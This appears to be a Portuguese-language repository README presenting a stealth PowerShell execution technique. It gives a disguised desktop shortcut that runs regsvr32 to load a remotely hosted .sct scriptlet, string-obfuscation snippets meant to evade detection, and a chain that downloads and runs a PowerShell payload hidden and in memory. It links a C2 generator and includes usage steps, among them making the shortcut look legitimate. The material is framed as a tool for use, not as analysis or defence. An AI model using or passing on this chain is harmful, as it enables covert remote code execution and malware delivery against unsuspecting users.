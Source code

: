 # Técnica de Execução Stealth do PowerShell

Este repositório demonstra uma técnica avançada de stealth para execução de scripts PowerShell que contorna controles de segurança comuns. A implementação utiliza objetos COM, arquivos SCT e ofuscação de strings para evitar detecção enquanto executa scripts PowerShell remotos.

## Visão Geral

Esta técnica aproveita o regsvr32.exe, um binário legítimo do Windows, para carregar e executar um arquivo scriptlet (.sct) hospedado remotamente que contém código JavaScript ofuscado. Este código então executa comandos PowerShell de maneira altamente evasiva.

## Gerar o c2 em ps1

https://github.com/ticofookfook/C2-polimorfico

## Componentes

### 1. Atalho na Área de Trabalho

O ponto de entrada é um atalho do Windows com as seguintes propriedades:

```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
Estilo da Janela: Minimizada
```

### 2. Estrutura do Arquivo SCT

O arquivo SCT (Scriptlet) contém código JScript ofuscado usando múltiplas técnicas de evasão:

```xml
<?XML version="1.0"?>
<scriptlet>
<registration progid="TESTING" classid="{10001111-0000-0000-0000-0000FEEDACDC}">
<script language="JScript">
<![CDATA[
    // Código de execução ofuscado
]]>
</script>
</registration>
</scriptlet>
```

### 3. Técnicas de Evasão

A implementação usa múltiplas camadas de evasão:

- **Inversão de Strings**: Strings como "powershell.exe" são armazenadas invertidas para evitar detecção
  ```javascript
  function d(s){return s.split('').reverse().join('');}
  var p = d("exe.llehsrewop");
  ```

- **Conversão de Código de Caracteres**: Strings críticas são construídas a partir de códigos de caracteres
  ```javascript
  var cmd = String.fromCharCode(73,69,88,...);
  ```

- **Expansão de Variáveis de Ambiente**: Usa variáveis de ambiente para construir caminhos do sistema
  ```javascript
  var x = a.ExpandEnvironmentStrings(d("%RIDNIW%"));
  var e = x + d("23metsyS\\");
  ```

- **Execução Oculta**: Usa `-WindowStyle Hidden` para prevenir janelas visíveis do PowerShell

### 4. Cadeia de Execução

A cadeia completa de execução é:

1. Usuário clica no atalho
2. regsvr32.exe carrega o arquivo .sct remoto via HTTP
3. O código JScript executa com comandos ofuscados
4. PowerShell é chamado com janela oculta
5. PowerShell baixa e executa o script payload diretamente na memória

## Uso

1. Hospede o arquivo .sct em um servidor HTTP
2. Hospede seu payload PowerShell como "teste.ps1" no mesmo servidor
3. Crie o atalho usando o script gerador fornecido
4. O ícone e o nome do atalho podem ser personalizados para parecerem legítimos

## Detalhes Técnicos

### Parâmetros do regsvr32

- `/s`: Execução silenciosa (sem diálogos)
- `/u`: Desregistra componente (usado como parte da técnica)
- `/i:<URL>`: Especifica o script a ser carregado
- `scrobj.dll`: O Script Component Runtime que processa o scriptlet

### Considerações de Segurança

Esta técnica é eficaz em contornar controles de segurança porque:

1. regsvr32 é um binário confiável do Windows (técnica living-off-the-land)
2. Nenhum arquivo é escrito no disco (execução sem arquivos)
3. Múltiplas camadas de ofuscação de string previnem detecção estática
4. A execução do PowerShell fica oculta para o usuário
5. Usa objetos COM legítimos do Windows para execução

